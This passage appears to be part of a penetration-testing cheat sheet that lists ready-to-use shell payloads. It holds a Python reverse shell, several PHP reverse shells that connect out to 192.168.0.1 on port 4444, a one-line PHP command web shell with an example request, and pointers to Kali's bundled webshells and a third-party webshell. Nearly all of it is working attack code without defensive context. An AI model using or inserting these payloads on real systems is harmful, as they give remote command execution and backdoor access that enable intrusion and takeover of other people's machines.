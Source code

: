 ### Python Code (Reverse Shell)
```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.0.1",4444));os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

***

## PHP

### Kali Default PHP Reverse Shell
```bash
cat /usr/share/webshells/php/php-reverse-shell.php
```

### Kali Default PHP CMD Shell
```bash
cat /usr/share/webshells/php/php-backdoor.php
```

### PHP Reverse Shell
*Version 1:*
```bash
<?php echo shell_exec("/bin/bash -i >& /dev/tcp/192.168.0.1/4444 0>&1");?>
```

*Version 2:*
```bash
<?php $sock=fsockopen("192.168.0.1", 4444);exec("/bin/sh -i <&3 >&3 2 >& 3");?>
```

*As Command:*
```bash
php -r '$sock=fsockopen("192.168.0.1",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### CMD Shell
```bash
<?php echo system($_REQUEST["cmd"]); ?>
```
*Call the CMD shell:*
```bash
http://192.168.0.1/cmd_shell.php?cmd=whoami
```

### WhiteWinterWolf Webshell

https://github.com/WhiteWinterWolf/wwwolf-php-webshell

***
